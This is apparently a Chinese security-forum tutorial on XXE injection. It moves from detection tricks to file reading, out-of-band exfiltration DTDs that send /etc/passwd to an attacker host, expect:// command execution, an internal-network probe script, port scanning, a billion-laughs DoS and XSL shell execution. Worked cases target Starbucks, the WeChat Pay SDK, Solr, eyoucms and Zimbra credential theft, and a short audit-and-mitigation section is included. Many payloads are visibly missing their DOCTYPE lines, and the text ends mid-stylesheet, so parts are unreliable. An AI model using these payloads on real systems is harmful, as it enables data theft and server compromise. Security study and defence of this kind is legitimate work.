



# 奇安信攻防社区-【Web实战】XXE漏洞

### 【Web实战】XXE漏洞

XXE漏洞指的是XML外部实体注入（XML External Entity Injection）漏洞，它是一种常见的安全漏洞类型，可以用来攻击基于XML的应用程序。当应用程序接受XML输入时，攻击者可以插入带有外部实体引用的恶意XML数据，从而导致应用程序执行未经授权的操作，比如访问本地文件系统、执行远程代码等。攻击者可以通过利用XXE漏洞来获取敏感信息、控制服务器，或者执行其他恶意操作。

# XXE定义

XXE漏洞指的是**XML外部实体注入**（XML External Entity Injection）漏洞，它是一种常见的安全漏洞类型，可以用来攻击基于XML的应用程序。当应用程序接受XML输入时，攻击者可以插入带有外部实体引用的恶意XML数据，从而导致应用程序执行未经授权的操作，比如访问本地文件系统、执行远程代码等。攻击者可以通过利用XXE漏洞来获取敏感信息、控制服务器，或者执行其他恶意操作。


# 1、web测试

## 1.2、随手测试

### 1.2.1、最简单的测试

如遇与xml交互的地方，使用如下payload，如果返回“this is test”，则证明存在xxe漏洞，并且是个有回显的漏洞。

```php
<?xml version="1.0" encoding="UTF-8"?> 
 
]> 
<root>&test;</root>
```


### 1.2.2、添加xml代码

```php
修改Content-Type: application/xml
X-Requested-With: XMLHttpRequest
```

例如，一个普通的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
foo=bar
```

可以更改为下面的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?>
<foo>bar</foo>
```

如果两个请求包的返回包一样那么就存在XXE漏洞

### 1.2.3、目录

输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，或者返回200“文件内容”则存在xxe漏洞。

```php
win
<?xml version="1.0" encoding="UTF-8"?>

 
]> 

linux
<?xml version="1.0" encoding="UTF-8"?>

 
]> 
```


### 1.2.4、DNSLOG

也可以使用DNSLOG进行测试，使用如下payload，如果dnslog平台能接受到信息，则证明存在xxe漏洞

[http://www.dnslog.cn/](http://www.dnslog.cn/)

```php
POST /dorado/view-service HTTP/1.1
Host: www.nxzhaj.com:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
content-type: text/xml
Content-Length: 133
Connection: close
Referer: http://www.nxzhaj.com:8080/
Cookie: JSESSIONID1=6061F2C1A054E8B25D732A1578F6D443

<?xml version="1.0" encoding="utf-8" ?>

]>
<root>&xxe;</root>
```


### 1.2.5、SOAP

SOAP是一种协议规范，用于在Web上交换结构化和固化的信息。它使用XML格式来编码这些信息，并通过HTTP或HTTPS等协议进行传输。因此，可以简单理解为SOAP是HTTP和XML的组合。

SOAP的优点是它提供了一种标准化的方式来表示Web服务请求和响应，这使得不同平台和应用程序之间的互操作性成为可能。由于它基于XML，因此SOAP消息具有自我描述性，可以包含任何类型的数据，并且可以轻松地在不同的系统和编程语言之间进行转换。

虽然SOAP不是Web服务的专有协议，但它在Web服务领域得到了广泛应用。许多企业和组织使用SOAP来构建他们的分布式系统和应用程序，以实现跨平台和跨网络的数据交换和集成。



注意exp的XML内容要写在SOAP的前面才能正常解析利用：


## 1.3、读取文件

在进行利用之前应该先测试下，目标环境有无回显，是否支持外部实体。

```php
检查是否支持外部实体
<?xml version="1.0" encoding="UTF-8"?> 
 
%foo;
]> 
查看你的服务器是否有请求
```

### 1.3.1、不同平台支持的协议

注意：jdk1.8开始不再支持gopher协议


### 1.3.2、有回显

#### 1.3.2.1、读取本地文件

1、Java环境下读取文件

netdoc协议和file协议的作用是一样的，都可以读取文件。

```php
<?xml version="1.0" encoding="UTF-8"?> 

 
]> 
<user><username>&xxe;</username><password>admin</password></user>
```



2、PHP环境下读取文件

不支持netdoc协议，可以使用file协议读取文件


3、读目录

Java环境下可以使用file协议读取列目录，和ls作用类似


PHP环境下，使用file协议无法读取列目录


5、绕过特殊字符

在 XML 中，字符 "<" 和 "&" 是非法的，所以读取一些带有特殊字符的文件时，就会报错“元素内容必须由格式正确的字符数据或标记组成”。


如果目标环境是PHP的，这个时候就可以使用PHP协议，用base64编码去读取

```php
 ]>
```


在Java环境中，我们可以使用CDATA来读取包含特殊字符的文本数据，避免XML解析器对其进行解析。

CDATA部分用于包含可能会被XML解析器误解为标记的文本。比如，一段文本中包含"<"或"&"等字符，这些字符在XML中具有特殊含义，如果直接包含在XML文档中可能会导致解析错误。使用CDATA部分可以避免这种问题，因为CDATA部分中的所有内容都会被XML解析器忽略。

在Java中，我们可以使用以下方式将文本数据包含在CDATA部分中：

```php
String data = "<![CDATA[这里是文本数据]]>";
```

在这个例子中，"这里是文本数据"是包含在CDATA部分中的文本数据。当这段文本数据被XML解析器解析时，解析器会忽略CDATA部分，只将其中的内容当作普通的文本数据处理。

使用CDATA部分是一种在XML文档中包含特殊字符文本的有效方式。同时，在Java环境中，我们也可以利用这个特性来读取和处理这类文本数据。

**payload:**

```php
<?xml version="1.0" encoding="utf-8"?> 
   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/1.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

**1.dtd**

```php
<?xml version="1.0" encoding="UTF-8"?>  <!ENTITY all "%start;%goodies;%end;">
```


但是也只能读取一些简单的文本文件，如果文本中含有&或%还是无法进行读取。

### 1.3.3、无回显

当遇到服务器响应始终为空的情况时，针对 XXE漏洞可以选择报错利用和外带利用两种策略。

#### 1.3.3.1、报错利用

通过构造特殊的 XXE 请求来触发服务器的错误响应。通常，当服务器处理错误的 XXE 请求时，会返回一些有关其内部环境的信息。输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，则证明文件不存在，如返回200，则证明文件存在。

```php
<?xml version="1.0" encoding="UTF-8"?>
%remote;]>
```


#### 1.3.3.2、外带利用

通过 XXE 请求控制服务器发出的网络请求，尝试让服务器向我们的VPS发起请求，这样就可以直接在VPS上查看请求的结果。

1、可以引用外部DTD

我们可以使用参数实体，引用外部DTD。

```php

Payload
    
    %remote;%int;%send;
    ]>

test.dtd

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip?p=%file;'>">
```


可以看到在服务器日志上面出现了我们想要的内容。


**整个调用过程：**

这种攻击方式关键在于构造合适的payload，通过连续调用参数实体，将远程服务器上的test.dtd文件包含进来，然后利用%file实体获取服务器上的敏感文件。最后，通过%send实体将读取到的数据发送到远程VPS上。

2、无法引用外部DTD

当目标服务器和攻击者之间存在防火墙，或者网络访问受到限制时，可能无法直接引用外部的DTD文件。在这种情况下，使用本地DTD文件是一个很好的替代方案。

要找到本地的DTD文件，可以进行枚举文件和目录。

Linux

```php
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
```

Windows

```php
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
<?xml version="1.0" ?>

<!ENTITY % condition 'aaa)>
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    <!ELEMENT aa (bb'>
%local_dtd;
]>
<message>any text</message>
```

## 1.4、命令执行

目标环境的特殊配置导致XML与某些命令操作关联，从而造成命令执行的可能性。如果目标内部的PHP环境中安装了expect扩展，并且该扩展被加载到了处理XML的内部应用程序上，就可以利用expect来执行系统命令。

Expect扩展是一个用于自动化交互的套件，它可以在执行命令和程序时，模拟用户输入指定的字符串，以实现交互通信。如果能够成功利用这个扩展，就可以通过构造恶意的XML数据，触发命令执行，进而执行任意系统命令。

```php
<?xml version="1.0" encoding="utf-8"?>

<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```


## 1.5、内网主机探测

当我们成功利用了XXE漏洞，下一步就是尝试读取服务器的网络配置文件，以获取内网的相关信息。/etc/network/interfaces、/proc/net/arp和/etc/hosts都是可能包含有用信息的文件。

```php
/etc/network/interfaces：这个文件通常包含服务器的网络接口配置信息，您可以从中找到内网的IP地址和网段。

/proc/net/arp：这个文件保存了地址解析协议（ARP）的缓存表，您可以从中获取到与内网中其他主机进行通信的主机的MAC地址和IP地址。

/etc/hosts：这个文件是Linux系统上的主机文件，用于IP地址和域名的快速解析。您可以查看文件中是否有内网主机的映射关系。
```

  
**下面是一个探测脚本的实例：**

```php
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>

def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<user>"""
    xml = xml + "\r\n" + """ <username>&test;</username>"""
    xml = xml + "\r\n" + """</user>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.11.59/doLogin.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
        continue
```

## 1.6、内网端口扫描

使用以下payload进行端口扫描，通过响应时间来判断端口是否开放，利用Burp Suite等工具设置循环遍历端口，自动化进行端口探测，将扫描出来的资产进行相应端口的漏洞利用。

```php
<?xml version="1.0" encoding="utf-8"?> 

<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<user>
<username>&xxe;</username>
<password>1</password>
</user>

可使用burpsuite的intruder模块进行遍历
```

## 1.7、文件上传

我们前面说过Java环境下支持jar协议，jar 能从远程获取 jar 文件，然后将其中的内容进行解压

jar 协议处理文件的过程：

(1) 下载 jar/zip 文件到临时文件中  
(2) 提取出我们指定的文件  
(3) 删除临时文件

```php
<?xml version="1.0" encoding="utf-8"?> 

]>

<user><username>&remote;</username><password>1</password></user>
```

200上传成功


如何找到上传的地址呢，使用一个不存在的文件就能报错显示路径了


具体利用方式还未想到。

## 1.8、DOS攻击

```php
<?xml version="1.0"?>

 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## 1.9、JSON转换成XML攻击

通常，在Web应用中，客户端通过POST请求向服务器发送数据时，会使用Content-Type头来指明数据的格式，如application/json表示JSON格式，application/xml表示XML格式。

如果攻击者尝试将Content-Type头从合法的格式（如application/json）更改为其他格式（如application/xml），并且服务器未正确实施解析和验证机制，那么攻击者可能会成功地向服务器注入恶意数据。

在这种情况下，攻击者可以通过构造恶意的XML数据，尝试利用潜在的XXE漏洞或其他XML相关漏洞。我们可以使用Burp插件（[Content-Type转换器](https://github.com/NetSPI/burp-plugins/releases)）来自动实现这种转换的方法。

# 2、审计

## 2.1、Java代码审计

### 2.1.1、Java常见危险函数

在Java中我们一般用以下几种常见的接口来解析XML语言。

**1.XMLReader**

XMLReader接口是一种通过回调读取XML文档的接口，其存在于公共区域中。XMLReader接口是XML解析器实现SAX2驱动程序所必需的接口，其允许应用程序设置和查询解析器中的功能和属性、注册文档处理的事件处理程序，以及开始文档解析。当XMLReader使用默认的解析方法并且未对XML进行过滤时，会出现XXE漏洞。

**2.SAXBuilder**

SAXBuilder是一个JDOM解析器，其能够将路径中的XML文件解析为Document对象。SAXBuilder使用第三方SAX解析器来处理解析任务，并使用SAXHandler的实例侦听SAX事件。当SAXBuilder使用默认的解析方法并且未对XML进行过滤时，会出现XXE漏洞。

**3.SAXReader**

DOM4J是dom4j.org出品的一个开源XML解析包，使用起来非常简单，只要了解基本的XML-DOM模型，就能使用。DOM4J读/写XML文档主要依赖于org.dom4j.io包，它有DOMReader和SAXReader两种方式。因为使用了同一个接口，所以这两种方式的调用方法是完全一致的。同样的，在使用默认解析方法并且未对XML进行过滤时，其也会出现XXE漏洞。

**4.SAXParserFactory**

SAXParserFactory使应用程序能够配置和获取基于SAX的解析器以解析XML文档。其受保护的构造方法，可以强制使用newInstance()。跟上面介绍的一样，在使用默认解析方法且未对XML进行过滤时，其也会出现XXE漏洞。

**5.Digester**

Digester类用来将XML映射成Java类，以简化XML的处理。它是ApacheCommons库中的一个jar包：common-digester包。一样的在默认配置下会出现XXE漏洞。其触发的XXE漏洞是没有回显的，我们一般需通过Blind XXE的方法来利用：

**6.DocumentBuilderFactory**

javax.xml.parsers包中的DocumentBuilderFactory用于创建DOM模式的解析器对象，DocumentBuilderFactory是一个抽象工厂类，它不能直接实例化，但该类提供了一个newInstance()方法，这个方法会根据本地平台默认安装的解析器，自动创建一个工厂的对象并返回。

```php
String xml = request.getParameter("xml");
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();

//factory.setExpandEntityReferences(false); // 禁止外部实体

DocumentBuilder builder = factory.newDocumentBuilder();
Document document = builder.parse(new InputSource(new StringReader(xml)));
```

### 2.1.2、审计方法

通过搜索以下XML的常见关键字，可以快速地对关键代码进行定位

```php
javax.xml.parsers.DocumentBuilderFactory;
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFaory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
DocumentHelper.parseText
DocumentBuilder
org.w3c.dom
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
org.xml.sax.SAXParseExceptionpublicId
```

下面是我之前对一个系统进行审计时发现的xxe漏洞，下面的代码使用了危险函数DocumentBuilder()，并且没有对传参进行过滤限制，也没有禁用外部实体。


并且SAMLResponse可控，攻击者传入构造好的xml代码，造成XXE漏洞。


## 2.2、安全建议

1、禁用外部实体解析：

```php
  ○ 对于XMLReader，使用setFeature方法禁用外部实体：xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
  ○ 对于SAXParserFactory，同样使用setFeature方法：saxParserFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  ○ 对于使用DocumentBuilderFactory的场景，也应禁用外部实体解析：documentBuilderFactory.setExpandEntityReferences(false);
```

2、输入验证：对于所有用户提供的输入，应始终进行严格的验证。仅接受符合预期格式的输入，并拒绝任何不符合预期的输入。

3、最小权限原则：运行解析XML的代码的环境或容器应尽可能以最小的权限运行。这样可以减少潜在的损害，即使攻击者能够触发XXE漏洞。

4、使用安全配置：如果可能，尽量使用安全配置选项。例如，考虑使用静态DTD，避免从不受信任的来源加载外部DTD。

5、输出编码：当输出XML数据时，确保对输出进行适当的编码，以防止任何形式的注入。

# 3、实战案例

## 3.1、星巴克上传接口XXE

首先登录到用户输入的个人信息设置页面，点击上传图片。发现在参数allow\_file\_type\_list中添加html，就可以上传HTML文件，并返回地址信息。

```php
Request:
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif
...

Modified Request:
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,html
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.html"
}
...
```

这样就可以尝试在参数allow\_file\_type\_list中添加XML，上传XML文件

```php
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,xml
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml"
}
...
```

然后修改\_hxpage参数为上传的xml文件，服务器将尝试解析这个XML文件。当这个XML文件包含一个外部实体引用，服务器将尝试访问这个引用指向的URL，造成XXE攻击

```php
POST /retail/hxpublic_v6/hxdynamicpage6.aspx?_hxpage=tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml HTTP/1.1
Host: starbucks.com.cn
...
...
```

## 3.2、微信支付接口XXE

WXPayUtil下的xmlToMap方法存在XXE漏洞，使用了DocumentBuilder危险函数，直接将传入的字符串转换为了map集合，并且未对字符串进行过滤，导致攻击者可以传入任意的攻击代码。


我们写一个测试方法，调用xmlToMap方法，发现成功读取文件内容。


```php
package com.github.wxpay.sdk;
import java.util.Map;
public class test {
     public static void main(String[] args) {
        String str = "<?xml version='1.0' encoding='utf-8'?>\r\n"+ 
        "\r\n"+
        " ]>\r\n"+ 
        "<creds><goodies>&goodies;</goodies><pa>susu</pa></creds>";
        Map<String, String> map;
        try {
            map = new WXPayUtil().xmlToMap(str);
            System.out.println(map);   
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

可能有些同学会有疑惑，为什么要嵌套两个元素，如： "<creds><passwd>&goodies;</passwd></creds>";

因为传入的xml语句的元素会被当作map的key，变量会被当成map的value，如果是只嵌套一个元素，如： "<creds>&goodies;</creds>";转换为map后就变成了{ }，因为是获取子节点传入nodeList中，上面的写法没有子节点，所以输出null。


可以看到子节点都被转换为map输出出来。


## 2.3、solrXXE漏洞

出现问题的代码存在于/solr/src/lucene/queryparser/src/java/org/apache/lucene/queryparser/xml/CoreParser.java文件中

我们可以看到下面的代码使用了危险函数DocumentBuilder（），并且没有对传参进行过滤限制，也未禁用DTD和外部实体，造成了XXE漏洞。


## 2.4、cve-2021-42194 eyoucms<=1.5.8(最新版)

1、我们定位到漏洞地址application/home/controller/Index.php的wechat\_return()方法中，我们可以看到第137行直接将传入的xml代码给到了simplexml\_load\_String函数进行了解析，并且没有禁用外部实体，最终导致了xxe漏洞。而进入到simplexml\_load\_String函数的前提条件是，先从数据库中查询pay\_info字段，然后获取其中的appid，如果appid不为空或者传入的xml代码中存在appid，那么就会造成xxe漏洞。


2、这个appid可以定位到application/admin/controller/PayApi.php的WeChatPayConfig方法中


## 2.5、Zimbra XXE漏洞

1、直接跟进到漏洞接口/Autodiscover/Autodiscover.xml，POST发送一个空的xml，我们发现返回了No Email address is specified in the Request


2、我们定位到这句话，发现这里存在XXE漏洞

```php
public void doPost(HttpServletRequest req, HttpServletResponse resp){

  reqBytes = ByteUtil.getContent(req.getInputStream(), req.getContentLength());
  Document doc = docBuilder.parse(new InputSource(new StringReader(content)));
  //获取Request标签中的内容 
  NodeList nList = doc.getElementsByTagName("Request");
    for (int i = 0; i < nList.getLength(); i++)
      {
        Node node = nList.item(i);
        if (node.getNodeType() == 1)
        {
          Element element = (Element)node;
          email = getTagValue("EMailAddress", element);
            //获取AcceptableResponseSchema的值赋值给responseSchema，这里就造成了XXE漏洞，没有对AcceptableResponseSchema的值进行任何过滤
          responseSchema = getTagValue("AcceptableResponseSchema", element);
        }
      }
    //
    if ((email == null) || (email.length() == 0))
    {
      log.warn("No Email address is specified in the Request, %s", new Object[] { content });
      sendError(resp, 400, "No Email address is specified in the Request");
      return;
    }
    if ((responseSchema != null) && (responseSchema.length() > 0)) {
         //当responseSchema不符合标准的时候，就会爆出错误，并将responseSchema回显，就造成了XXE漏洞
      if ((!responseSchema.equals("http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006")) && (!responseSchema.equals("http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a")))
      {
        log.warn("Requested response schema not available " + responseSchema);
        sendError(resp, 503, "Requested response schema not available " + responseSchema);
        return;
      }
}
```

3、[https://wiki.zimbra.com/wiki/Autodiscover官网给出的Autodiscover的写法](https://wiki.zimbra.com/wiki/Autodiscover%E5%AE%98%E7%BD%91%E7%BB%99%E5%87%BA%E7%9A%84Autodiscover%E7%9A%84%E5%86%99%E6%B3%95)，

```php
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/responseschema/2006" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<Response xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006">
<Culture>en:en</Culture>
<User>
<DisplayName>admin</DisplayName>
<EMailAddress>admin@zimbra.io</EMailAddress>
</User>
<Action>
<Settings>
<Server>
<Type>MobileSync</Type>
<Url>https://zimbra86.zimbra.io:8443/Microsoft-Server-ActiveSync</Url>
<Name>https://zimbra86.zimbra.io:8443/Microsoft-Server-ActiveSync</Name>
</Server>
</Settings>
</Action>
</Response>
</Autodiscover>
```

我们可以写出如下payload，利用xxe漏洞

```php

<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
      <EMailAddress>123</EMailAddress>
      <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
    </Request>
```


4、Zimbra为SOAP通信设置了一个全局管理员，用户名为“zimbra”，并随机生成密码。这些信息均存储在名为localconfig.xml的本地文件中。在某些条件下可以使用此类凭证，通过/service/extension/clientUploader/upload接口上传木马文件RCE。但是存在权限设置，通过管理端口才能发起请求，默认情况下端口是7071。

5、我们首先利用XXE读取localconfig.xml的本地文件，在Java环境的那我们可以使用CDATA读取，来绕过字符限制。

dtd文件

```php
<?xml version="1.0" encoding="UTF-8"?>  <!ENTITY all "%start;%goodies;%end;">
```

payload

```php
   
<!ENTITY % goodies SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://attackip/12.dtd"> 
%dtd; ]> 
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&all;</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```


## 2.6、XXE写shell

当服务器支持XSL（可扩展样式表语言）时，就可以利用XXE漏洞来执行任意代码。在XML文档中引用一个恶意的XSL样式表，这个样式表可以包含任意的XSL命令，如<xsl:value-of select="php:function('shell\_exec', 'your command here')"/>。当服务器解析这个XML文档时，它将尝试应用这个XSL样式表，从而执行任意代码。

```php
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
